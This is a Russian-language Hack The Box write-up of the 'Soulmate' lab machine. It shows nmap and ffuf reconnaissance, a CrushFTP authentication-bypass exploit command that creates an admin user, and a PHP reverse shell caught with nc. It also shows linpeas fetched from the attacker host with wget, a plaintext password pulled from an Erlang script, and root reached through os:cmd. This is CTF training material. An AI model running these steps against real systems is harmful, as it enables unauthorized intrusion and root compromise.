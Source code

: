 # 📝 Write-up: Soulmate (Hack The Box)

![editor](https://app.hackthebox.com/machines/Soulmate)

**Difficulty:** Easy
**Platform:** Hack The Box
**Target host (lab):** `soulmate.htb` — `10.10.11.86` (добавить в `/etc/hosts`)
**Link:** [Soulmate @ HTB](https://app.hackthebox.com/machines/Soulmate)

---

## 🎯 Summary

Soulmate — лёгкая Linux-машина. Ключевые шаги:

* Первичный доступ через **уязвимость аутентификации в CrushFTP (версии до 11.3.1)** — CVE-2025-31161 (или CVE-2025-2825, PoC).
* Горизонтальная эскалация: переиспользование пароля из конфигурации.
* Эскалация до root через небезопасную конфигурацию Erlang/OTP SSH-демона.

---

## 🔒 Prerequisites / Notes

* Это write-up для учебной (CTF / lab) среды Hack The Box — **не запускать против продакшн-систем**.
* В моих примерах `soulmate.htb` резолвится в `10.10.11.86`. Добавьте в `/etc/hosts`:

```bash
# добавить на атакующей машине
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts
```

* Я удалил явные плейсхолдеры и указал, где подставлять свои значения: `<YOUR_IP>` — IP вашей атакующей машины для обратного шелла.

---

## 🔍 Reconnaissance

Сначала порт-скан `nmap`:

```bash
nmap -sC -sV -p22,80,443,20 soulmate.htb
```

Пример вывода (сокращённо):

```
PORT    STATE SERVICE   VERSION
20/tcp  open  ftp-data?
22/tcp  open  ssh?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http?
443/tcp open  https?
```

---

## 🕵️ Enumeration

### 🌐 HTTP — порт 80

* При переходе на [http://soulmate.htb](http://soulmate.htb) отображается сайт для знакомств.
* Запустил `ffuf` для поиска директорий — результаты:

```
index.php               [Status: 200, Size: 16688, Words: 6110, Lines: 306, Duration: 687ms]
login.php               [Status: 200, Size: 8554, Words: 3167, Lines: 178, Duration: 67ms]
register.php            [Status: 200, Size: 11107, Words: 4492, Lines: 238, Duration: 72ms]
profile.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 73ms]
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 65ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 67ms]
dashboard.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 133ms]
```

* При попытке залогиниться с помощью SQL-инъекций сервер вел себя странно.
  ![Странность](imageSql.png)

---

### 🌐 Порт 20 — FTP

* К порту `20` подключиться не удалось.
* Запустил `ffuf` для поиска субдоменов:

```bash
ffuf -u http://10.10.11.86 -H "Host: FUZZ.soulmate.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 4
```

* Результат:

```
ftp.soulmate.htb [Status: 302 Redirect]
```

Добавьте в `/etc/hosts`:

```bash
echo "10.10.11.86 ftp.soulmate.htb" | sudo tee -a /etc/hosts
```

---

### ⚡ Порт 20 — CrushFTP Version: 11.3.0_2

* Обнаружен интерфейс со страницей логина и версией CrushFTP; найдены уязвимости для этой версии: `crushftp-CVE-2025-2825` (PoC) и `CVE-2025-31161` (PoC).

* С помощью `crushftp-CVE-2025-2825` удалось получить список пользователей админ-панели.
  ![Список пользователей](image1.png)

* Через CVE-2025-31161 удалось, от имени root, создать нового пользователя без аутентификации:

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user xss --password xss123
```

* Удалось войти в систему как `xss`.
  ![Админ-панель](image2.png)

* На странице `http://ftp.soulmate.htb/WebInterface/UserManager/index.htm` найден список пользователей. Я изменил их пароли и вошёл под одним из них — у `ben` обнаружились интересные директории с файлами:

```
/IT/ – файлы информационных технологий
/ben/ – пользовательская директория
/webProd/ – директория веб-продукции (целевая для загрузки файлов)
```

* Я загрузил в `webProd` файл `monkey.php` для обратной оболочки. На атакующей машине запустил `nc -lnvp 4444`, затем открыл `http://soulmate.htb/monkey.php` и получил обратную оболочку.

---

## Получение обратной оболочки

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.184] from (UNKNOWN) [10.10.11.86] 44832
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

---

## Перечисление системы

* Для удобства поднял локальный простейший HTTP-сервер на атакующей машине:

```bash
python3 -m http.server 8000
```

* На целевой машине скачал и выполнил `linpeas.sh`:

```bash
cd /tmp/
wget http://10.10.14.184:8000/linpeas.sh -O lin.sh
chmod +x lin.sh
./lin.sh
```

---

### Обнаружение интересного процесса

```
root  1048  0.0  1.8 2260044 72276 ? Ssl 16:06 0:03 /usr/local/lib/erlang_login/start.escript -B
```

* Внутри скрипта найдены конфиденциальные данные пользователя `ben`:

```bash
cat /usr/local/lib/erlang_login/start.escript
.......
{auth_methods, "publickey,password"},
{user_passwords, [{"ben", "HouseH0ldings998"}]}
```

---

### Получение user.txt

* Подключился по SSH, используя креды `ben`:

```bash
ssh ben@soulmate
Password: HouseH0ldings998
```

* Первый флаг:

```bash
ben@soulmate:~$ cat user.txt
81b8219692204e627f7e41a11e42b26b
```

---

## Эскалация привелегий до root

* Проверил права через `sudo -l`:

```bash
ben@soulmate:~$ sudo -l
[sudo] password for ben:
Sorry, user ben may not run sudo on soulmate.
```

---

### Обнаружение подозрительного процесса на порту 2222

* Просмотр активных портов показал сервис на порту `2222` — это Erlang SSH, запущенный от root.

* Попытался подключиться локально по этому порту, используя учётные данные `ben`:

```bash
ben@soulmate:~$ ssh ben@localhost -p 2222
Password: HouseH0ldings998
```

* Получил Erlang-оболочку:

```
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>
```

* Через `os:cmd/1` в этой оболочке выполнил системную команду и обнаружил, что она работает от root:

```erlang
(ssh_runner@soulmate)1> os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```

* С помощью этой оболочки прочитал `root.txt`:

```erlang
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").
```

![root.txt](image.png)

---

## Заключение

"Soulmate" на Hack The Box — отличный вариант для тех, кто только начинает разбираться в пентесте. На этой машине можно отработать основы взлома веб-приложений, работу с реверс-шеллами и способы получения прав root.

Спасибо, что дочитали! Надеюсь, этот гайд оказался полезным и поможет вам покорять другие хакерские полигоны.
